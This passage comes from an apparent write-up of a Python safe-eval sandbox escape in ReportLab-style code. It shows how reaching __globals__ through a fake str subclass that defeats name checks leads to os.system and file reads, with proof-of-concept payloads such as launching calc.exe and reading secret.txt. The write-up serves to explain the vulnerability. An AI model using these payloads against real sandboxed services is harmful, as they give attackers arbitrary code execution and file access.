     But if you can do:

    ```python
    getattr(safe_function, '__globals__')
    ```

    &#x2026;you can break out of that sandbox, because now you have:

    ```python
    glbs = getattr(safe_function, '__globals__')

    # Windows
    glbs['os'].system('calc.exe')  # on Windows
    # Nix
    glbs['eval']('open("secret.txt").read()')
    ```



-  Why the sandbox blocks it:

    The sandbox tries to prevent this by blocking any attribute access like `__globals__` or `__code__`, because:

    -   `__globals__` → gives access to all variables and modules.
    -   `__code__` → lets you inspect or even modify function internals.
    -   `__class__` → can give access to dangerous metaprogramming tools.

    If we bypass those restrictions using the fake Word class (see below), we can call:

    ```python
    getattr(pow, Word('__globals__'))['os'].system('calc.exe')
    ```

    Even though '`__globals__`' is blocked in the sandbox, it gets sneaked in using a fake object that tricks the checks.


#### The Trick: A Fake String Class: {#the-trick-a-fake-string-class}

In Python, we can subclass built-in types like `str` and override their methods. That includes `startswith()`, `__eq__`, and `__hash__`.

We can use this power to create a custom string-like object that lies about itself in order to pass the sandbox checks.


##### How the Sandbox Works: {#how-the-sandbox-works}

So we can understand the exploit we let’s look at this method that checks names in the safe eval system.

```python
def __rl_is_allowed_name__(self, name):
    if name in __rl_unsafe__ or (name.startswith('__') and name != '__'):
        raise BadCode("Unsafe access of %s" % name)
```
